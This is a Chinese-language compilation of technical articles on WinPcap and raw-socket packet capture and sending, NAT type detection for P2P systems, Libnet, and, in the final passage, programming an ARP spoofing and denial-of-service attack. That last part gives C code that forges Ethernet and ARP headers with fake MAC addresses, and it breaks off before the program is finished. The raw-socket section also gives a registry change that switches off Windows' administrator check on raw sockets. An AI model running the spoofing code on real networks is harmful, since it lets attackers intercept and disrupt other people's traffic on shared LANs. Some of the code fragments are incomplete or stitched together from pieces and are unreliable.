Winpcap 提供给用户两个不同级别的编程接口：一个是基于 libpcap 的 wpcap.dll；另一个是较底层的 packet.dll。对于一般的要与 Unix 平台上 libpcap 兼容的开发来说，使用 pcap.dll 是当然的选择。

上面简要介绍了一些 Winpcap 知识，如果还有什么不清楚的话，大家可以到网上看看，有很多资料介绍，这里就不再赘述了。

## Winpcap 编程

我们首先来看看 Winpcap 为我们提供的几个重要函数。

`char* pcap_lookupdev(char *errbuf)`，这个函数的功能是查询本机的网络接口名字，后面有用。

`pcap_t* pcap_open_live(const char *device,int snaplen,int promisc,int to_ms,char *ebuf)`，该函数的功能是打开一个网络接口进行数据包捕获。Device 就是上面的函数返回的结果，Promisc 为 1 表示以混杂模式打开。

下面这个函数是最关键的，大家注意一下。

`pcap_sendpacket(pcap_t *p,int nonblock,char *errbuf)`，顾名思义，这个函数是发送数据包的。

上面简要介绍了关键的几个函数，下面介绍一下用 Winpcap 编写发送数据包程序的一般流程。

- 命名并打开一个设备；
- 自己构造一个原始数据包（这个数据包会不经过任何处理就发送出去，所以必须把包中的各个字段设置好。另外，这个数据包是包含数据链路层报头的）；
- 使用 `pcap_sendpacket()` 发送数据包。

下面我们就遵守上面的开发流程编写一个发送数据包代码。

```c
#include "pcap.h"
// WinPcap 头文件
void main()
{
    pcap_t *pcap_handle;
    /* winpcap 句柄 */
    char *net_interface;
    /* 网络接口 */
    char error_content[PCAP_ERRBUF_SIZE];
    /* 存储错误信息 */
    u_int8_t packet_content[94] = "...";
    /* 要发送的原始数据包 */

    net_interface = pcap_lookupdev(error_content);
    /* 获得网络接口 */

    pcap_handle = pcap_open_live(
        net_interface,   /* 网络接口 */
        94,              /* 数据包大小 */
        1,               /* 混杂模式 */
        1,               /* 等待时间 */
        error_content);  /* 错误信息 */

    /* 打开网络接口 */
    pcap_sendpacket(
        pcap_handle,     /* winpcap 句柄 */
        packet_content,  /* 数据包缓存内容 */
        94);             /* 数据包长度 */
    /* 发送网络数据包 */

    pcap_close(pcap_handle);
    /* 关闭 Winpcap 操作 */
}
```

怎么样，很简单吧？呵呵，不错，就是这么简单。

【本文涉及的代码（程序），请见随书光盘】

### NAT 穿透之 NAT 类型检测


文／图 张东辉[shineast][http://hi.baidu.com/shineastdh] 麦野

众所周知，NAT（Network Address Translation）很大程度地解决了 IP 地址耗尽的问题。允许多个内网主机使用同一个外网 IP 地址访问网络，并在一定程度上保障了内网的安全，但同时也给 P2P 模式下的通信和传输带来了诸多不便。因此，NAT 穿透已成为开发 P2P 系统首先要解决的问题。更进一步讲，在 NAT 穿透工作的第一步是完成 NAT 类型检测，只有检测出网络上要通信的两个节点的网络类型，才能有的放矢地，在其间采取特定方式通信。因此，本文主要内容就是 NAT 类型检测。


#### NAT 种类

我们平时使用 NAT 时，可能没有注意用的是哪种类型的 NAT。事实上，NAT 按照网络通信的限制大致可以分为以下 4 类：Full Cone NAT（完全圆锥型）、Address Restricted Cone NAT（地址限制圆锥型）、Port Restricted Cone NAT（端口限制圆锥型）和 Symmetric NAT（对称型）。

下面我们就这 4 种不同的 NAT 做一些简单阐述。网上有很多资料，我这里只是简单总结一下而已。

##### Address Restricted Cone NAT

内网主机建立一个 UDP socket（LocalIP:LocalPort），第一次使用这个 Socket 给外部主机发送数据时，NAT 会给其分配一个公网（PublicIP:PublicPort），以后用这个 Socket 向外面任何主机发送数据都将使用这对公网（PublicIP:PublicPort）。此外，如果任何外部主机想要发送数据给这个内网主机，只要知道这个（PublicIP:PublicPort），并且内网主机之前用这个 Socket 曾向这个外部主机 IP 发送过数据，只要满足这两个条件，这个外部主机就可以用自己的（IP，任何端口）发送数据给（PublicIP:PublicPort），内网的主机就能收到这个数据包。

具体来说，如图 2 所示，NAT 会将客户机地址 {X:y} 转换成公网地址 {A:b} 并绑定，只有来自主机 {P} 的包才能和主机 {X:y} 通信。

##### Full Cone NAT

内网主机建立一个 UDP Socket（LocalIP:LocalPort），第一次使用这个 Socket 给外部主机发送数据时，NAT 会给其分配一个公网（PublicIP:PublicPort），以后用这个 Socket 向外面任何主机发送数据都将使用这对公网（PublicIP:PublicPort）。此外，任何外部主机只要知道这个（PublicIP:PublicPort），就可以发送数据给（PublicIP:PublicPort），内网的主机就能收到这个数据包。

具体来说，如图 1 所示，NAT 会将客户机地址 {X:y} 转换成公网地址 {A:b} 并绑定，任何包都可以通过地址 {A:b} 送到客户主机的 {X:y} 地址上。


##### Port Restricted Cone NAT

内网主机建立一个 UDP socket（LocalIP:LocalPort），第一次使用这个 socket 给外部主机发送数据时，NAT 会给其分配一个公网（PublicIP:PublicPort），以后用这个 socket 向外面任何主机发送数据都将使用这对（PublicIP:PublicPort）。此外，如果任何外部主机想要发送数据给这个内网主机，只要知道这个公网（PublicIP:PublicPort），并且内网主机之前用这个 socket 曾向这个外部主机（IP,Port）发送过数据。只要满足这两个条件，这个外部主机就可以用自己的（IP,Port）发送数据给（PublicIP:PublicPort），内网的主机就能收到这个数据包。

具体来说，如图 3 所示，NAT 会将客户机地址 {X:y} 转换成公网地址 {A:b} 并绑定，只有来自主机 {P,q} 的包才能和主机 {X:y} 通信。


图3

##### Symmetric NAT

内网主机建立一个 UDP socket（LocalIP,LocalPort），当用这个 Socket 第一次发数据给外部主机 1 时，NAT 为其映射一个（PublicIP-1,Port-1），以后内网主机发送给外部主机 1 的所有数据都是用这个（PublicIP-1,Port-1）。如果内网主机同时再用这个 Socket 给外部主机 2 发送数据，第一次发送时，NAT 会为其分配一个（PublicIP-2,Port-2），以后内网主机发送给外部主机 2 的所有数据都是用这个（PublicIP-2,Port-2）。如果 NAT 有多于一个公网 IP，则（PublicIP-1）和（PublicIP-2）可能不同。如果 NAT 只有一个公网 IP，则（Port-1）和（Port-2）肯定不同，也就是说一定不能是（PublicIP-1）等于（PublicIP-2）且（Port-1）等于（Port-2）。此外，如果任何外部主机想要发送数据给这个内网主机，那么它首先应该收到内网主机发给它的数据，然后才能往回发送，否则即使它知道内网主机的一个（PublicIP,Port），也不能发送数据给内网主机，这种 NAT 无法实现 UDP-P2P 通信。

具体来说，如图 4 所示，NAT 会将客户机地址 {X:y} 转换成公网地址 {A:b} 并绑定为 {X:y}{A:b}<->{P:q}，NAT 只接收来自 {P:q} 的 incoming packet，将它转给 {X:y}；每次客户机请求一个不同的公网地址和端口时，NAT 就会新分配一个端口号 {C,d}。


图4

#### NAT 类型检测

了解了以上对 NAT 的分类，接下来就是对某个未知 NAT 的检测了。如何检测呢？仔细思考一下，不难得到结论，如果要准确检测出内网主机的 NAT 类型的话，外网至少需要两台主机。如果你想用外网的一台主机完成检测工作的话，除非这个主机有两个网卡，否则是不能完成任务的。事实上，要求一个外网主机有两个网卡，有时不太容易被满足，也就是说很难找到这样的节点，如果是 P2P 视频点播系统的话，一般会在网络上自动生成一些节点来负责一些通信辅助等工作，我们称之为 supernode。假设这些 supernode 来负责检测 NAT 类型，那么双网卡的 supernode 就不太好找了。所以，如果写 NAT 检测程序的话，最好是用两个外部的 supernode 来完成一次检测工作。

这里，假设要检测的内网主机是 client，外网动态地有多个 supernode，都提供 NAT 检测服务（其实两个就够了，以防网络故障）。在 client 上存有一部分 supernode 的信息，主要包括 supernode 的 ip 和 port 等，这些信息存储在一个文件 hostcache.txt 中，如图 5 所示。


图5

我的检测过程是这样的：

```c
/* 包号(dowhat):
 * 0 请求用户返回ip:port      7 单独的响应包
 * 1 客户请求提供其他主机检测  6 其他主机响应包
 * 2 同时请求两主机发回响应    5 针对2的响应包
 * 3 请求使用另一端口发回响应  4 使用另一端口响应
 * 8 SN请求其他主机检测
 */

// NAT检测开始
// 检测流程：
1) 向超级节点SN1发送0号包，等待一段超时时间，如果没有返回，换下一个超级节点。否则go 2，如果hostcache中的节点都失效了，那么开始向中心节点发请求，来得到一批...
```

- 新的 superNode 节点列表：

- 2）判断超级节点返回的 7 号包中携带的 (ip, port) 和自己发包时用的 (ip, port) 是否相同；如果相同，说明本地是公网 IP；如果不同，说明在 NAT 后；
- 3）向 SN1 发送 1 号包，并携带一个自己列表中的另一个 superNode（SN2）的 (ip, port)；让 SN1 发 8 号包给 SN2，告诉本 client 的外网 (ip, port)；让 SN2 给本 client 发 6 号包；另外 SN1 还可以在自己维护的临近 SN 列表中选择 3 个也给 client 发送 6 号包；
- 4）如果 client 在一段超时时间内没有收到任何包，那么再将 3）中的过程进行一次，总共最多可以进行 NCheckTime（5）次；其中只要有一次收到包，就 go 5；
- 5）如果收到了 SN2、SN3、SN4 中的任何一个，检测就停止；结果是 Full Cone NAT。如果没有收到任何包，检测继续，go 6；
- 6）client 从自己的 hostcache 中选择一个 SN2，向其发送 2 号包；等待一段超时时间，如果没有收到 5 号包的话，继续从 hostcache 中选择一个 SN3；如果 hostcache 中的所有 SN 都不给回复 5 号包的话，从中心节点获取新的 SN 后，继续发 2 号包。收到第一个 5 号包，开始比较，如果和 SN1 的返回结果 (ip, port) 中有任何一对不一致，则说明是 Symmetric NAT，检测停止；否则是 Restricted Cone NAT，同时继续检测，go 7；
- 7）client 向 SN1 发送 3 号包，让 SN1 换用另一个端口发 4 号包，重复若干次，如果 client 能收到，说明是 Address Restricted Cone NAT，否则是 Port Restricted Cone NAT。检测结束。

以上就是主要的检测算法和检测程序的流程，按照上面编程，就可以实现任意节点网络类型的检测。下面我简单介绍一下我的程序实现。

编程语言选择 C++，IDE 是 VC6.0，网络封包使用 UDP 包。程序需要编写客户端和服务端，客户端就是上面要检测的 client，服务端就是提供检测服务的 supernode。检测流程的控制过程是在客户端，这样服务端需要做的就是监听端口，然后解析并做相应的处理即可。

对于客户端来说，比较简单，就是走上面的一个流程。需要注意的是对一些特殊情况的处理，比如 Socket 超时、本地缓存的 supernode 失效的情况等。

对于服务端来说，编程实现中使用了双线程。主线程启动后，初始化一个循环队列，负责存放发到本机的网络类型检测数据包，然后创建一个子线程。子线程仅负责监听服务端口上的数据包，并把这些包存放在主线程初始化的那个循环队列中。主线程发现循环队列不空时，开始处理这个请求，做上面检测流程中提到的相应处理。

有兴趣的朋友可以看我写的源码，基本都注释了。没有兴趣看源码的朋友，了解了这个检测流程也就罢了，其实没啥难度。

#### 工具实战

下面把我编写的工具运行一下，看看能不能起到网络类型检测的功能。网络环境是这样的：我在实验室放置了两台 PC，是独立 IP 的，分别是 202.117.7.209 和 202.117.54.230，用来做 supernode，提供检测服务；然后在另外的一个子网内使用一个内部 IP（192.168.3.30）的主机来检测。这里服务端监听的端口是 8888，客户端使用的端口是 7777。

在客户端最终的检测结果如图 6 所示，检测出我的 NAT 类型是 Port Restricted Cone NAT。同时在服务端抓包看到的过程也是符合实际的，如图 7 所示。


#### 总结

希望本文能对开发 P2P 模式通信的朋友有所帮助，如果您对文中提出的检测流程有不同看法或有新的思路，可以与我联系并讨论，请不吝赐教！

> 【本文涉及的代码（程序），请见随书光盘】

### 网络数据包捕获与发送的多重实现


文 / nokyo

对网络数据进行研究，归根到底离不开对数据包的捕获和发送这两个关键环节，而其他操作都是建立在这个基础上的。捕获数据包有多种方法，常见的有原始套接字和 Libpcap（它在 Windows 下的版本是 WinPcap）；而发送数据包同样可以使用原始套接字，但更好的方式是使用 Libnet，其操作简单、功能强大、使用方便、效果稳定。

#### 使用原始套接字

原始套接字是允许访问底层传输协议的一种套接字类型，它工作在 OSI 协议模型的网络层，允许对底层的传输协议加以控制，对 IP 头信息进行实际操作。而此前我们所了解的 TCP 或 UDP 等协议都是工作在 OSI 协议模型的传输层，利用了网络层提供的服务。

原始套接字有两种类型，其一是在 IP 头中使用预定义的协议，如 ICMP 等；其二是在 IP 头中使用自定义的协议，这时我们甚至可以构造属于自己的协议类型。

创建原始套接字同样是使用 Socket 或 WSASocket 函数，只不过需要将套接字类型指定为 SOCK_RAW，比如“SOCKET s = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP);”，其中第 3 个参数将成为 IP 头中协议域的值。

在完成了原始套接字的创建之后，就可以在发送和接收调用中使用对应的套接字句柄。无论在创建原始套接字时是否设定了 IP_HDRINCL 选项，IP 头都会包含在接收到的任何返回数据中。

由于原始套接字可以控制底层传输机制，存在着可能被恶意利用的安全隐患，因此在 Windows NT/2000/XP 上，必须是具有管理员权限的用户才能创建原始套接字。如果没有管理员权限，创建原始套接字仍然会成功，但到 bind 操作时就会返回失败。为绕过这一限制，可禁止对原始套接字的安全检查。

检查方法是在注册表中创建变量：“HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Afd\Parameters\DisableRawSecurity”，并将它的值设为 1（DWORD 类型）。

下面一段代码演示了使用原始套接字捕获数据报的方法。

```cpp
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")
#define SIO_RCVALL _WSAIOW(IOC_VENDOR,1)

// TCP 头结构
typedef struct _TCPHeader
{
    USHORT sourcePort;
    USHORT destinationPort;
    ULONG sequenceNumber;
    ULONG acknowledgeNumber;
    UCHAR dataoffset;
    UCHAR flags;
    USHORT windows;
    USHORT checksum;
    USHORT urgentPointer;
} TCPHeader, *PTCPHeader;

// UDP 头结构
typedef struct _UDPHeader
{
    USHORT sourcePort;
    USHORT destinationPort;
    USHORT len;
    USHORT checksum;
} UDPHeader, *PUDPHeader;

// IP 头结构
typedef struct _IPHeader
{
    UCHAR ipVerLen;
    UCHAR ipTOS;
    USHORT ipLength;
    USHORT ipID;
    USHORT ipFlags;
    UCHAR ipTTL;
    UCHAR ipProtocol;
    USHORT ipChecksum;
    ...
}
```

```cpp
ULONG ipSource;
ULONG ipDestination;
IPHeader *pIPHeader;
void DecodeTCPPacket(char *pData);
void DecodeUDPPacket(char *pData);
void DecodeIPPacket(char *pData);

void main()
{
    WSADATA ws;
    WSAStartup(MAKEWORD(2,2),&ws);
    // 创建原始套接字
    SOCKET sRaw = socket(AF_INET,SOCK_RAW,IPPROTO_IP);

    // 得到本机IP，使用原始套接字时必须明确指定一个本机包通信对象
    char szHostName[56];
    SOCKADDR_IN addr_in;
    struct hostent *pHost;
    gethostname(szHostName,56);
    if((pHost = gethostbyname((char *)szHostName)) == NULL)
        return;

    addr_in.sin_family = AF_INET;
    addr_in.sin_port = htons(0);
    memcpy(&addr_in.sin_addr.S_un.S_addr,pHost->h_addr_list[0],pHost->h_length);
    printf("Binding To Interface : %s\n",inet_ntoa(addr_in.sin_addr));
    if(bind(sRaw,(SOCKADDR *)&addr_in,sizeof(addr_in)) == SOCKET_ERROR)
        return;

    // 将网卡设置为混杂模式
    DWORD dwValue = 1;
    if(ioctlsocket(sRaw,SIO_RCVALL,&dwValue) != 0)
        return;

    char buffer[1024];
    int nRet;
    while(TRUE)
    {
        // 接收数据包并进行解析
        nRet = recv(sRaw,buffer,1024,0);
        if(nRet > 0)
            DecodeIPPacket(buffer);
    }
    closesocket(sRaw);
}

// 解析TCP数据包
void DecodeTCPPacket(char *pData)
{
    TCPHeader *pTcpHdr = (TCPHeader *)pData;
    printf("\tTCP : Port:%d => %d\n",ntohs(pTcpHdr->sourcePort),ntohs(pTcpHdr->destinationPort));
}

// 解析UDP数据包
void DecodeUDPPacket(char *pData)
{
    UDPHeader *pUdpHdr = (UDPHeader *)pData;
    printf("\tUDP : Port:%d => %d\n",ntohs(pUdpHdr->sourcePort),ntohs(pUdpHdr->destinationPort));
}
```

```cpp
void DecodeIPPacket(char *pData)
{
    IPHeader *pIpHdr = (IPHeader *)pData;
    in_addr source,dest;
    char szSourceIp[32],szDestIp[32];

    source.S_un.S_addr = pIpHdr->ipSource;
    dest.S_un.S_addr   = pIpHdr->ipDestination;
    strcpy(szSourceIp,inet_ntoa(source));
    strcpy(szDestIp,inet_ntoa(dest));
    printf("%s -> %s\n",szSourceIp,szDestIp);

    // 计算头部长度
    int nHeaderLen = (pIpHdr->ipVerLen & 0xF) * sizeof(ULONG);

    switch(pIpHdr->ipProtocol)
    {
    case IPPROTO_TCP:
        DecodeTCPPacket(pData + nHeaderLen);
        break;
    case IPPROTO_UDP:
        DecodeUDPPacket(pData + nHeaderLen);
        break;
    case IPPROTO_ICMP:
        break;
    default:
        break;
    }
}
```

下面解释一下解析数据报的过程。由于原始套接字工作在网络层，因此我们得到的都是 IP 报文，在 IP 报文中使用 IP 地址寻址，因此我们可以找到报文的源地址与目的地址并输出；同时，在 IP 报文中有个字段标明了它的上层协议，例如上层协议是 TCP，则网络层把报文交给传输层处理的时候就要进行 TCP 解析，此处我们必须自己完成解析，大体过程就是把 IP 报文头部去掉后再进行 TCP 或 UDP 解析。

使用原始套接字发送数据报也不是很难，不过比较麻烦，需要自己手动填写 IP、TCP 等协议头部，还要自行计算校验和。下面一段代码给出了填充协议头部并将数据发送出去的主要过程。

```cpp
// 构造并发送数据包
ip_header.ipVerLen = (4<<4 | sizeof(ip_header)/sizeof(ULONG));
ip_header.ipTOS = 0;
ip_header.ipLength = htons(sizeof(ip_header) + sizeof(tcp_header));
ip_header.ipID = 1;
ip_header.ipFlags = 0;
ip_header.ipTTL = 128;
ip_header.ipProtocol = IPPROTO_TCP;
ip_header.ipChecksum = 0;
ip_header.ipSource = inet_addr(inet_ntoa(szHost.sin_addr));
ip_header.ipDestination = inet_addr("127.0.0.1");
ip_header.ipChecksum = CheckSum((USHORT *)&ip_header,sizeof(ip_header));
```

```cpp
memcpy(szBuffer,&ip_header,sizeof(IPHeader));
tcp_header.DestPort = htons(DestPort);
tcp_header.SourcePort = htons(SourcePort);
tcp_header.SeqNumber = htonl(seq);
tcp_header.AckNumber = 0;
tcp_header.DataOffset = (sizeof(tcp_header)/4<<4 | 0);
tcp_header.Flags = TCP_SYN;
tcp_header.Window = htons(5647);
tcp_header.UrgentPointer = 0;
tcp_header.CheckSum = 0;
// 计算伪首部校验和
ComputeTcpPseudoHeaderChecksum(&ip_header,&tcp_header,NULL,0);
memcpy(&szBuffer[sizeof(IPHeader)],&tcp_header,sizeof(TCPHeader));

// 发送数据
int iError = 0;
int nLen = sizeof(ip_header) + sizeof(tcp_header);
if(sendto(sRaw,szBuffer,nLen + 34,0,(struct sockaddr *)&szDest,sizeof(szDest)) == SOCKET_ERROR)
{
    printf("Send Data Error!\n");
    closesocket(sRaw);
    iError = WSAGetLastError();
    printf("Error Code = %d\n",iError);
    return -1;
}
printf("Send Data Success!\n");
```

```cpp
pcap_if_t *alldevs;
pcap_if_t *d;
int iNum;
int i = 0;
pcap_t *adhandle;
char ErrBuf[PCAP_ERRBUF_SIZE];

// 查找可用网络接口
if(pcap_findalldevs(&alldevs,ErrBuf) == -1)
{
    fprintf(stderr,"Error in pcap_findalldevs:%s\n",ErrBuf);
    return -1;
}

// 输出全部网络接口
for(d = alldevs; d; d = d->next)
{
    printf("%d.%s",++i,d->name);
    if(d->description)
        printf("(%s)\n",d->description);
    else
        printf("No description available\n");
}
if(i == 0)
{
    printf("\nNo Interface Found!\nMake Sure WinPcap is installed!\n");
    return -1;
}

// 提示用户选择捕捉接口
printf("Input The Interface Number(1-%d):",i);
scanf("%d",&iNum);
if(iNum < 1 || iNum > i)
{
    printf("\nInterface Number Out of Range.\n");
    pcap_freealldevs(alldevs);
    return -1;
}

// 跳转到指定接口
for(d = alldevs, i = 0; i < iNum - 1; d = d->next, i++);

// 打开接口设备开始监听
if((adhandle = pcap_open_live(d->name,65536,1,1000,ErrBuf)) == NULL)
{
    fprintf(stderr,"\nUnable to Open the Adapter.%s is not Supported by WinPcap.\n");
    pcap_freealldevs(alldevs);
    return -1;
}

printf("\nListening On %s...\n",d->description);
pcap_freealldevs(alldevs);

// 捕获数据并通过回调函数处理
pcap_loop(adhandle,0,packet_handler,NULL);
return 0;
}

// 回调函数
void packet_handler(u_char *param,const struct pcap_pkthdr *header,const u_char *pkt_data)
{
    struct tm *ltime;
    char timestr[16];
    ltime = localtime(&header->ts.tv_sec);
}
```

#### 使用 WinPcap

WinPcap 是 Win32 环境下的数据包捕获开发包。它其实是将 UNIX 环境下的 libpcap 移植到了 Windows 系统。WinPcap 可用于网络分析、网络故障诊断、网络数据包嗅探、监视以及流量分析统计等各种程序中，它主要提供了 4 个方面的功能：捕获网络原始数据包，根据用户定义的规则过滤数据包，发送用户自己构造的数据包到网络，统计网络流量。

WinPcap 由数据包捕获驱动、底层动态链接库（Packet.dll）和高层静态链接库（wpcap.lib）等 3 部分组成。wpcap.lib 使用 Packet.dll 提供的服务，为用户提供了一个更简单易用的接口，因此使用得非常普遍，我们今天就是直接使用 wpcap.lib 提供的 API。

下面的代码演示了使用 WinPcap 捕获数据包的基本流程，它只是最基本的做法，实际上 WinPcap 还支持用户自己设定过滤器来过滤消息等更多复杂的功能，此处限于篇幅只能介绍最基本的捕获数据功能。

```cpp
#include "pcap.h"
#pragma comment(lib,"wpcap.lib")
#pragma comment(lib,"ws2_32.lib")
void packet_handler(u_char *param,const struct pcap_pkthdr *header,const u_char *pkt_data);
int main()
{
    // ...
}
```

```c
strftime(timestr, sizeof(timestr), "%H:%M:%S", time);
printf("%s,%6.6d len:%d\n", timestr, header->ts.tv_usec, header->len);
```

## 使用Libnet

Libnet也是一个知名的开发包，它为构造并发送数据包提供了一种简单而强大的方法。使用Libnet可以轻松地构造出各种类型协议的数据包，例如TCP、UDP、ICMP等。

与libpcap和WinPcap不同，libnet没有直接提供在Windows平台上的移植包，需要我们自己编译生成相应的DLL和LIB文件。通常我们只能下载到一个“libnet.tar.gz”文件，不过可以使用WinRAR将其解压，其中有个“Win32”文件夹。由于我们要在VC 6.0下使用，因此需要打开“Libnet.dsw”工程文件进行编译。编译过程比较复杂，同时需要WinPcap和较高版本SDK的支持，我已经将其编译好随文附上。

下面的代码来自libnet提供的sample，它演示了构造并发送ARP数据包的过程。

```c
#if (HAVE_CONFIG_H)
#if (_WIN32) && !(_CYGWIN__)
#include "./include/win32/config.h"
#else
#include "./include/config.h"
#endif
#endif

#include "./libnet_test.h"

int main(int argc, char *argv[])
{
    int c;
    u_int32_t i;
    libnet_t *l;
    libnet_ptag_t t;
    char *device = NULL;
    u_int8_t *packet;
    u_int32_t packet_s;
    char errbuf[LIBNET_ERRBUF_SIZE];

    printf("libnet 1.1 packet shaping: ARP[link -- autobuilding ethernet]\n");

    if (argc > 1)
    {
        device = argv[1];
    }

    l = libnet_init(
        LIBNET_LINK_ADV, /* injection type */
        device,          /* network interface */
        errbuf);         /* errbuf */

    if (l == NULL)
    {
        fprintf(stderr, "%s", errbuf);
        exit(EXIT_FAILURE);
    }
    else
    {
        ...
    }
}
```

```c
i = libnet_get_ipaddr4(l);

t = libnet_autobuild_arp(
    ARPOP_REPLY,      /* operation type */
    enet_src,         /* sender hardware addr */
    (u_int8_t *)&i,   /* sender protocol addr */
    enet_dst,         /* target hardware addr */
    (u_int8_t *)&i,   /* target protocol addr */
    l);               /* libnet context */

if (t == -1)
{
    fprintf(stderr, "Can't build ARP header: %s\n", libnet_geterror(l));
    goto bad;
}

t = libnet_autobuild_ethernet(
    enet_dst,        /* ethernet destination */
    ETHERTYPE_ARP,   /* protocol type */
    l);              /* libnet handle */

if (t == -1)
{
    fprintf(stderr, "Can't build ethernet header: %s\n", libnet_geterror(l));
    goto bad;
}

if (libnet_adv_cull_packet(l, &packet, &packet_s) == -1)
{
    fprintf(stderr, "%s", libnet_geterror(l));
}
else
{
    fprintf(stderr, "packet size: %d\n", packet_s);
    libnet_adv_free_packet(l, packet);
}

c = libnet_write(l);
if (c == -1)
{
    fprintf(stderr, "Write error: %s\n", libnet_geterror(l));
    goto bad;
}
else
{
    fprintf(stderr, "Wrote %d byte ARP packet from context %s\n"
            "check the wire.\n", c, libnet_cq_getlabel(l));
}

libnet_destroy(l);
return (EXIT_SUCCESS);

bad:
libnet_destroy(l);
return (EXIT_FAILURE);
```

事实上，由于libnet没有对应的Windows版本，对于一些基础较为薄弱的读者来说使用起来还是有一定难度的，不容易理解，工程复杂，因此它的使用场合并不多。如果对它熟悉了，使用起来却很方便，但我们需要自己从头构造数据包的地方不多，因此常规的Winsock应该可以基本满足我们的编程需要。

> 【本文涉及的代码（程序），请见随书光盘】

## ARP Spoof&DoS攻击

#### 编程实践


文／图 古开元  四川大学信息安全研究所

关于讨论ARP欺骗的文章，在《黑客防线》杂志第8期的《小窥ARP协议》和第9期的《ARP SPOOF DoS攻防详谈》均有介绍。不过俗话说，授人以鱼，不如授人以渔，更多的读者也许期待的是如何将其原理和编程实现结合。本文的着笔点正是出于这样的目的，更是对上述两篇文章的一个补充，希望能让读者真正理解ARP攻击的实质，同时，也给部分想学习而又害怕学习WinPcap的读者一些“师傅领进门”的感受。

【以下测试环境为Windows XP SP1 + VC6.0 SP6 + WinPcap 3.14 beta，必须安装WinPcap 3.0以上版本的驱动。】

首先，我们通过一个例子来回顾一下ARP欺骗和攻击的原理。先来做个实验，打开一个cmd窗口，输入`arp -a`，该命令表示通过询问当前协议数据来查看本机ARP缓存保存的入口地址，如图1所示。


上面表示作者本人的主机IP为192.168.3.155，现在ARP缓存里只有两条IP为192.168.3.253和192.168.3.254的ARP缓存记录，很显然，两IP是作者主机所在局域网的网关……然后ping同一局域网内的另一IP为192.168.3.162的主机，再次输入`arp -a`，得到结果如图2所示。


虽然PING不通，但是ARP缓存却刷新了：添加了192.168.3.162这一项记录，并显示其MAC地址为**-**-ab-31-5c-3c，类型也是dynamic。显然，对方开了防火墙并设置了禁止内发的PING包，但是仍然暴露了该主机是活动主机的事实，而且对方的ARP缓存因此而刷新，如图3所示。


好了，到现在，我们可以把目标定为：伪造192.168.3.155的MAC地址为11-22-33-44-55-66，以达到欺骗的目的。我们以此为基点，先进入编码的部分。因为整个ARP Spoof&DoS都在交换环境的局域网内，涉及的都是MAC层的通信，所以定义以太网首部和ARP首部就成为必要的了，这样我们才可以构造伪数据包，如下所示。

```c
typedef struct ehhdr {
    unsigned char  eh_dst[6];   /* 目标以太网地址 */
    unsigned char  eh_src[6];   /* 源以太网地址 */
    unsigned short eh_type;     /* 以太网包类型 */
} EHHDR, *PEHHDR;

typedef struct arphdr {
    unsigned short arp_hrd;     /* 硬件地址格式 */
    unsigned short arp_pro;     /* 协议地址格式 */
    unsigned char  arp_hln;     /* 硬件地址长度 */
    unsigned char  arp_pln;     /* 协议地址长度 */
    unsigned short arp_op;      /* ARP/RARP 操作 */
    unsigned char  arp_sha[6];
    unsigned long  arp_spa;
    unsigned char  arp_tha[6];
    unsigned long  arp_tpa;
    ...
};
```

每个字段在注释里讲得很详细了，如果有疑问，可以查阅TCP/IP相关书籍。下一步，笔者的Spoof实现需要输入两个IP地址外加一个可选的网卡地址，所以就涉及解析输入的主机名或IP的实现，这个相信很多写过网络程序的读者都不陌生，代码如下：

```c
DWORD ResolveAddr(const char* host)
{
    PHOSTENT hp;
    DWORD host_ip;

    host_ip = inet_addr(host);
    if (host_ip == INADDR_NONE) {
        hp = gethostbyname(host);
        if (hp == NULL) {
            printf("Error: could not resolve hostname: %s", host);
            exit(1);
        }
        host_ip = *(DWORD*)(hp->h_addr_list[0]);
    }
    return host_ip;
}
```

然后，需要定义一个GetInterface()函数，顾名思义，就是获得本地主机网络接口的意思。因为基于WinPcap的几乎所有应用程序都需要选择合适的网卡适配器……GetInterface()定义如下：

```c
pcap_t* GetInterface()
{
    pcap_t *fp;
    char errbuf[PCAP_ERRBUF_SIZE];
    int i, inum;
    pcap_if_t *alldevs, *d;
    /* 取得设备列表 */
    ...
}
```

```c
if (pcap_findalldevs(&alldevs, errbuf) < 0) {
    fprintf(stderr, "Error in pcap_findalldevs: %s\n", errbuf);
    exit(1);
}

/* 打印设备列表 */
for (d = alldevs; d; d = d->next) {
    printf("%d. %s", ++i, d->name);
    ...
}

if (i == 0) {
    printf("No interfaces found! ...");
    pcap_freealldevs(alldevs);
    exit(1);
}

...
fp = pcap_open_live(d->name, 65535, 1, 1000, errbuf);
if (fp == NULL) {
    printf("Error: %s\n", errbuf);
    pcap_freealldevs(alldevs);
    exit(1);
}
pcap_freealldevs(alldevs);
return fp;
```

上面的注释已经比较清楚了，所有涉及到的WinPcap结构体和API函数，以及基于WinPcap程序的编译方法，大家都可以到相关网站查询。代码里假设如果用户输入可选的伪MAC地址，则使用这个自定义伪MAC地址；如果不输入，则使用随机产生的伪MAC地址。代码部分如下：

```c
if (argv[3]) {
    ...
}
```

```c
sprintf((char*)mac, "%c%c%c%c%c%c",
    rand(), rand(), rand(), rand(), rand(), rand());
}
else
{
    for (i = 0; i < ETHERLEN; i++)
    {
        sscanf(argv[3], "%02X", &tmp);
        mac[i] = tmp;
        argv[3] += 3;
    }
}
```


图4

为了得到由系统时钟产生的随机数，必须在头文件里加入`#include <time.h>`，在程序里加入`srand(time(NULL));`

```c
WSAStartup(MAKEWORD(2, 2), &wsaData); /* 初始化winsock库 */
ip_add = ResolveAddr(argv[1]);
ip_dst = ResolveAddr(argv[2]);
WSACleanup(); /* 用完了，记得释放哦 */
```

为了使用winsock2头文件，要指定`#pragma comment(lib, "ws2_32.lib")`来包含`ws2_32.lib`库文件。下面说到了自定义构造以太头和ARP头了，这就是我们伪造MAC的加工厂：

```c
memcpy(ether->eh_dst, DEST, ETHERLEN);
memcpy(ether->eh_src, mac, ETHERLEN);
ether->eh_type = htons(ETHERTYPE_ARP); /* #define ETHERTYPE_ARP 0x0806 */
arphdr->arp_hrd = htons(ARPHRD_ETHER);
arphdr->arp_pro = htons(ETHERTYPE_IP);
arphdr->arp_hln = ETHERLEN;
arphdr->arp_pln = PROTOLEN;
arphdr->arp_op  = htons(ARPOP_REQUEST); /* 请求服务 */
memcpy(arphdr->arp_sha, mac, ETHERLEN); /* 伪源MAC地址 */
arphdr->arp_spa = ip_add; /* 伪源ARP协议地址 */
memcpy(arphdr->arp_tha, SOURCE, ETHERLEN); /* 伪目标MAC地址 */
arphdr->arp_tpa = ip_dst; /* 伪目标ARP协议地址 */
```

